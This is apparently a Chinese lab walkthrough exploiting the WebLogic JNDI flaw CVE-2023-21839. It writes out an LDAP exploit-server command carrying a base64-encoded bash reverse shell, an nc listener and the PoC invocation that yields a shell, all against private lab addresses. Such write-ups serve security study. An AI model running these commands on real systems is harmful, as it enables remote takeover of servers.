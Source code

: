 ```
kali启动LDAP服务器，指定payload。由于我的kali使用jdk8版本，并且LADP协议要比rmi更不容易被过滤，所以选择ldap协议的地址。
java -jar JNDI-Injection-Exploit-1.0.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1LjEyOC83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}"
```

![image-20241122193152560](中间件漏洞/image-20241122193152560.png)	

```
kali监听端口
nc -lvp 7777
```

![image-20241122193311781](中间件漏洞/image-20241122193311781.png)	

```
Windows向漏洞服务器发送poc，让漏洞服务器去lookup这个ladp地址。当连接这个ldap就会把ldap的payload给到漏洞服务器。
CVE-2023-21839.exe -ip 192.168.15.50 -port 7001 -ldap ldap://192.168.15.128:1389/6o2k0m
```

![image-20241122193545064](中间件漏洞/image-20241122193545064.png)	

```
于是获得shell。
```

![image-20241122193558671](中间件漏洞/image-20241122193558671.png)	
